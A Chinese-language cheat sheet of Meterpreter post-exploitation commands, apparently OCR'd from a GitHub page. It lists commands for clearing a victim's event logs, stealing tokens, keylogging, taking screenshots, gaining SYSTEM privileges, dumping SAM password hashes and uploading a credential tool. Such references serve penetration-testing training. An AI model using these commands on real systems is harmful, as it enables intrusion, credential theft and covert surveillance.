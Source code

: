系统命令

```
clearav -清除了受害者的计算机上的事件日志
  drop_token -被盗的令牌
  execute-执行命令
  getpid -获取当前进程 ID (PID)
  getprivs -尽可能获取尽可能多的特权
  getuid -获取作为运行服务器的用户
  kill -终止指定 PID 的进程
  ps -列出正在运行的进程
  reboot-重新启动受害人的计算机
  reg -与受害人的注册表进行交互
  rev2self -在受害者机器上调用 RevertToSelf()
  shell -在受害者计算机上打开一个shell
  shutdown-关闭了受害者的计算机
  steal_token -试图窃取指定的 (PID) 进程的令牌
  sysinfo -获取有关受害者计算机操作系统和名称等的详细信息

```

用户界面命令

```
enumdesktops -列出所有可访问台式机
  getdesktop -获取当前的 meterpreter 桌面
  idletime -检查长时间以来，受害者系统空闲进程
  keyscan_dump -键盘记录软件的内容转储
  keyscan_start -启动时与如 Word 或浏览器的进程相关联的键盘记录软件
  keyscan_stop -停止键盘记录软件
  screenshot-抓去 meterpreter 桌面的屏幕截图
  set_desktop -更改 meterpreter 桌面
  uictl -启用用户界面组件的一些控件

```

特权升级命令

```
getsystem -获得系统管理员权限

```

密码转储命令

```
hashdump -抓去哈希密码 (SAM) 文件中的值

```

下面是我常用的一些命令

```
meterpreter &gt; background 放回后台
meterpreter &gt; exit 关闭会话
meterpreter &gt; help 帮助信息
meterpreter &gt; Sysinfo 系统平台信息
meterpreter &gt; screenshot 屏幕截取
meterpreter &gt; shell 命令行shell (exit退出)
meterpreter &gt; getlwd 查看本地目录
meterpreter &gt; lcd 切换本地目录
meterpreter &gt; getwd 查看目录
meterpreter &gt; ls 查看文件目录列表
meterpreter &gt; cd 切换目录
meterpreter &gt; rm 删除文件
meterpreter &gt; download C:\\Users\\123\\Desktop\\1.txt 1.txt 下载文件
meterpreter &gt; upload /var/www/wce.exe wce.exe 上传文件
meterpreter &gt; search -d c: -f *.doc 搜索文件
meterpreter &gt; execute -f cmd.exe -i 执行程序/命令
```